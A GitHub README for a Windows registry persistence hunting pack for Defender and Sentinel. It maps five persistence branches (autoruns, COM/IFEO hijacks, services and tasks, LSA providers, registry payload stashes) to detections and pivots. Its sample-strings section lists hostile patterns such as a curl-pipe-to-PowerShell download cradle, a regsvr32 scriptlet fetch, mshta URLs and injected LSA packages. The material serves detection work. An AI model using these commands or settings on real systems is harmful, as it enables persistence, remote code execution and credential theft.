




# Registry Persistence Composite Pack (MDE Advanced Hunting / Sentinel)
**Author:** Ala Dabat  
**Goal:** A *Venn-diagram* hunting system: each rule is a **sensor** for a persistence ecosystem, and each sensor **points to adjacent sensors** (overlap) so you can pivot into related tradecraft and complete attack chains.

---

## What this repo is (and what it isn’t)

This is not “a registry rule”.
It’s a **persistence surface model** implemented as **composites**:

- Each composite has a **Minimum Truth** (what must be true in telemetry for the attack surface to exist)
- Then **Reinforcement** (signals that raise confidence)
- Then **Convergence** (noise suppression via overlapping indicators, not brittle allowlists)

The end result behaves like a **venn diagram**:
- One detection rarely tells the whole story
- Multiple detections converge on the same campaign chain
- Each rule outputs **pivot strategy** to reach sibling techniques

---

## Threat Model: Persistence surfaces as “attack branches”

Persistence is not one technique — it’s a set of **branches** attackers choose based on constraints:

### Branch A — “Execute at logon”
**Objective:** Run payload when user logs in  
**Common keys:** Run/RunOnce, Winlogon, ActiveSetup  
**Typical adversary fit:** commodity loaders, initial access follow-on, user-level persistence

### Branch B — “Intercept legitimate execution”
**Objective:** Hijack trusted programs so they run attacker code  
**Common keys:** COM/CLSID InProcServer32, IFEO Debugger, AppInit_DLLs, handler hijacks  
**Typical adversary fit:** stealth-focused actors, durable persistence with low file footprint

### Branch C — “Run in background (system durable)”
**Objective:** Persist independent of user logon  
**Common keys:** Services ImagePath, TaskCache Tree/Tasks  
**Typical adversary fit:** post-exploitation frameworks, operators with admin, ransomware staging

### Branch D — “Credential / logon pipeline persistence”
**Objective:** Intercept auth, gain credential material, persist deeply  
**Common keys:** Control\\Lsa provider values  
**Typical adversary fit:** high-impact intrusions, credential theft enablement

### Branch E — “Stash payload in registry (staging), execute later”
**Objective:** Store code/encoded payload in registry as a staging substrate  
**Common keys:** *nonstandard* locations (HKCU\\…\\debug, odd vendor keys, custom paths)  
**Typical adversary fit:** fileless tradecraft, evasion against file-based controls

---

## Composite Overview (the “Venn diagram” map)

| Composite | Branch | Minimum Truth | What it catches best | Overlap (where it should lead you) |
|---|---|---|---|---|
| **01. Userland Autoruns** | A | Write to Run/RunOnce/ActiveSetup/Winlogon | Logon persistence via interpreters/LOLBins | → Payload stash (05), → Hijack (02) when autorun points to DLL/COM, → Network cradle hunts |
| **02. Hijack / Interception** | B | Write to IFEO/COM/AppInit/handler keys | Execution redirection & stealth persistence | → DLL Sideload hunts, → ImageLoad (untrusted DLL), → Parent/child anomalies |
| **03. Background (Services + TaskCache)** | C | Write to Services OR TaskCache | Silent task creation (COM/API) + service persistence | → Process execution of task/service, → WMI persistence hunts, → Driver/service abuse |
| **04. LSA / SSP Providers** | D | Write to Control\\Lsa provider values | Logon pipeline persistence / credential interception enablement | → Credential dumping hunts, → LSASS access, → Logon anomalies |
| **05. Registry Payload Stash** | E | Large/encoded/script-like registry data | Fileless staging substrate | → Execution trigger hunts (03/01), → PowerShell in-memory hunts, → Outbound C2 hunts |

> **Design note:** This is deliberately split by *truth domain*. If you merge these, you destroy precision and lose the ability to tune noise per ecosystem.

---

## Attack Vectors per Composite (how attackers actually leverage them)

### 01 — Userland Autoruns & Logon Triggers (Branch A)
**How it’s leveraged**
- Attacker writes a value that executes at user logon (Run/RunOnce/Policies Run)
- Or abuses Winlogon Shell/Userinit to guarantee execution
- Or uses ActiveSetup to execute once per user profile (stealthy persistence “per user”)

**Why defenders miss it**
- Legit software uses these keys constantly
- Attackers hide behind legitimate binaries (PowerShell, rundll32, wscript)
- Data may look “clean” unless you score it (writable path + obfuscation + rarity)

**Typical operator patterns**
- PowerShell encoded stagers
- Script hosts for remote template or HTA
- Rundll32/regsvr32 for DLL/scriptlet execution

---

### 02 — Hijack / Interception (Branch B)
**How it’s leveraged**
- **COM hijack:** Point CLSID InProcServer32 at attacker DLL → legitimate program loads it
- **IFEO Debugger:** Force a target process to launch attacker “debugger” instead
- **AppInit_DLLs:** Inject a DLL into many GUI processes (legacy but still abused)
- **Handler hijacks:** Replace “open” command for file types/executables

**Why defenders miss it**
- “Nothing new runs” until the legitimate app is invoked
- Telemetry is split across registry + image load + process launch
- Some environments don’t track COM usage well — registry is the anchor truth

---

### 03 — Background Persistence: Services + TaskCache (Branch C)
**How it’s leveraged**
- **Service persistence:** Set ImagePath to malicious binary/LOLBIN chain; service runs as SYSTEM
- **Scheduled task persistence:** Create tasks via schtasks.exe *or* via COM/API (silent)
- **TaskCache** is the blind-spot fix: even COM/API task creation leaves TaskCache artifacts

**Why defenders miss it**
- Many hunts key off `schtasks.exe` only (wrong: COM/API is common in post-exploitation)
- Services are noisy because legitimate agents update services frequently
- Convergence (danger tokens + writable targets + rarity) is required

---

### 04 — LSA / SSP / Security Provider Persistence (Branch D)
**How it’s leveraged**
- Modify LSA provider lists so malicious DLL is loaded in authentication pipeline
- Can enable credential interception, persistence, and sometimes stealth escalation

**Why defenders miss it**
- Rare but catastrophic
- Often done once, then no further registry changes
- Detection must be strict and high-confidence because impact is extreme

---

### 05 — Registry Payload Stash (Branch E)
**How it’s leveraged**
- Store encoded payload in a registry value (HKCU/HKLM) to avoid disk artifacts
- Later executed by:
  - a logon trigger (01)
  - a scheduled task/service (03)
  - PowerShell/WMI (adjacent hunts)

**Why defenders miss it**
- Key path is nonstandard and may not match persistence lists
- Requires *content-based* detection: blob size, base64, loader primitives, network indicators

---

## Sample Malicious Strings (registry value data patterns)

> These are representative “as they appear in registry value data”, not “full command lines”. Use them as analyst intuition + test strings.

### Shared attacker primitives (show up across 01/03/05)
- `powershell -enc <base64>`
- `pwsh -encodedCommand <base64>`
- `IEX(` / `Invoke-Expression`
- `FromBase64String(`
- `DownloadString(` / `Invoke-WebRequest` / `Invoke-RestMethod`
- `rundll32 <path>,<export>`
- `regsvr32 /s /n /u /i:<url> scrobj.dll`
- `mshta http://...` or `mshta vbscript:...`
- `wscript.exe <script.vbs>` / `cscript.exe`

### Autoruns (01) — typical registry data examples
- `C:\Users\Public\svchost.exe`
- `powershell.exe -NoP -W Hidden -enc <...>`
- `rundll32.exe C:\Users\<u>\AppData\Local\Temp\m.dll,Start`
- `cmd.exe /c curl http://... | powershell -`

### Hijack / Interception (02) — typical registry data examples
- `Debugger = "C:\Users\Public\dbg.exe"`
- `InProcServer32 = "C:\Users\<u>\AppData\Roaming\lib.dll"`
- `ScriptletURL = "http://<domain>/a.sct"`
- `AppInit_DLLs = "C:\ProgramData\p.dll"`

### Services / Tasks (03) — typical registry data examples
- `ImagePath = "C:\ProgramData\svc.exe"`
- `ImagePath = "cmd.exe /c powershell -enc ..."`
- TaskCache blobs containing encoded or script primitives (often not human-readable)

### LSA (04) — typical registry data examples
- `Security Packages = "msv1_0 kerberos wdigest <attackerDLL>"`
- `Notification Packages = "<attackerDLL>"`

### Payload stash (05) — typical registry data examples
- Large base64 blocks split by spaces/newlines
- Loader words embedded in encoded text + visible substrings like:
  - `http`, `https`, `.onion`, IPs/domains
  - `VirtualAlloc`, `WriteProcessMemory`, `CreateRemoteThread` (varies)

---

## Overlap & Pivot Strategy (turning this into a “hunt web”)

When one composite fires, the correct move is **not** “close alert”.
The correct move is “which sibling sensors should also fire if this is real?”

### Pivot map (practical)
- **01 Autoruns → 05 Payload stash**
  - If autorun points to PowerShell, scripts, rundll32: search for registry stashes created in the same time window
- **01 Autoruns → 02 Hijack**
  - If autorun launches a program that normally loads COM/DLLs, check for COM hijacks / InProcServer32 changes
- **02 Hijack → ImageLoad hunts**
  - COM/AppInit/SSP almost always culminate in **DLL load** → pivot to `DeviceImageLoadEvents` (untrusted DLL in writable paths)
- **03 Background → Execution confirmation**
  - Services/tasks must produce process execution → pivot to `DeviceProcessEvents` and confirm runtime
- **03 Background → WMI persistence hunts**
  - Operators frequently pair tasks/services with WMI for redundancy (adjacent hunt recommended)
- **04 LSA → Credential access**
  - Pivot to LSASS access, credential dumping, abnormal logons (adjacent hunts recommended)
- **05 Payload stash → Trigger hunts (01/03)**
  - Stash alone is staging; hunt the trigger that executes it

---

## Recommended “Sibling Hunts” (to complete the venn diagram)

These composites become dramatically stronger when paired with adjacent sensors:

### Execution confirmation layer
- **Suspicious child process chains** after persistence writes (run keys / task execution)
- **Office → script host → PowerShell** chains

### Module load / injection layer
- `DeviceImageLoadEvents`: DLLs loaded from user-writable paths
- Untrusted module loads into common hosts (explorer.exe, rundll32.exe, regsvr32.exe)

### Lateral + credential layer
- LSASS access, SAM/NTDS access, unusual logon types, pass-the-hash indicators

### Network layer
- New domains/ASNs post-persistence write
- C2 patterns from LOLBins (powershell/rundll32/mshta) shortly after registry changes

---

## Sample Attack Chains (end-to-end) per Composite

### Chain for 01 — Autorun
1) Initial access payload drops a launcher in user-writable path  
2) Writes Run key pointing to launcher or PowerShell encoded stager  
3) On next logon, launcher executes and pulls second stage  
4) Second stage establishes C2 and drops additional persistence

**What should co-fire:** 01 + (05 if stash is used) + network anomalies

---

### Chain for 02 — COM Hijack
1) Attacker drops DLL in AppData  
2) Writes CLSID\\InProcServer32 to that DLL  
3) User opens a legitimate app that uses that COM object  
4) DLL loads under trusted parent, executes payload

**What should co-fire:** 02 + ImageLoad anomalies + suspicious parent-child chains

---

### Chain for 03 — Silent Task via COM/API
1) Operator gains admin  
2) Creates scheduled task via COM (no schtasks.exe)  
3) TaskCache keys update (Tree/Tasks)  
4) Task triggers, runs payload as SYSTEM

**What should co-fire:** 03 + process execution confirmation + outbound C2

---

### Chain for 04 — LSA Provider
1) Attacker obtains SYSTEM  
2) Writes LSA provider to load malicious DLL  
3) On auth events, DLL loads in logon pipeline  
4) Credentials captured and used for lateral movement

**What should co-fire:** 04 + credential access + lateral movement anomalies

---

### Chain for 05 — Registry stash
1) Attacker stores encoded payload in nonstandard key  
2) Writes trigger (Run key or task) that decodes and executes it  
3) Payload runs fileless / in-memory  
4) Follow-on persistence deployed

**What should co-fire:** 05 + 01/03 + PowerShell/memory execution indicators

---

## Mermaid Diagrams (with interpretation)

### 01 — Userland Autoruns (Branch A)


Interpretation: Registry is the trigger, but the real signal is convergence: writable target + obfuscation + network primitives + rare writer.

### 02 — Hijack / Interception (Branch B)


Interpretation: This is stealth by design. The registry write may be the only “setup” event. The next observable is usually module load.

### 04 — LSA / SSP (Branch D)


Interpretation: TaskCache is the silent scheduled task truth source. If you only watch schtasks.exe, you miss this entire lane.

### 04 — LSA / SSP (Branch D)

```mermaid
  A[System-level access] --> B[Registry write: Control\\Lsa provider lists]
  B --> C[Authentication events occur]
  C --> D[Provider DLL loads in logon pipeline]
  D --> E[Credential interception / escalation]
  E --> F[Lateral movement]
```
Interpretation: Few events, huge impact. Treat as “break-glass” priority if unapproved.

### 05 — Registry Payload Stash (Branch E)



### Implementation Logic (how the composites enforce fidelity)

# Minimum Truth (hard gate)

- The correct registry ecosystem must be touched
- The rule does not “guess” technique from weak text matches alone

# Reinforcement (scoring)

- dangerous primitives / encoded / network indicators
- user-writable target paths

# rarity (org prevalence)

- untrusted signer/company
- Convergence (noise suppression)
- safe vendor + safe system path suppressed unless attacker primitives appear
- installer/updater writers suppressed unless reinforced by strong indicators

This is the critical concept: we don’t deny reality because it’s common.
We lower priority when common, and raise it when multiple indicators converge.

## How to use this as a Venn system (operational workflow)

Run all 5 composites daily in hunt mode (MEDIUM+)

1) When one fires, immediately pivot to:
2) its siblings (overlap map above)
3) execution confirmation (process + module load)
4) network confirmation (new dest / rare domains)
5) Promote only the highest-impact composites to alerting first:

04 (LSA), 03 (TaskCache/Services), then 02 (Hijacks)

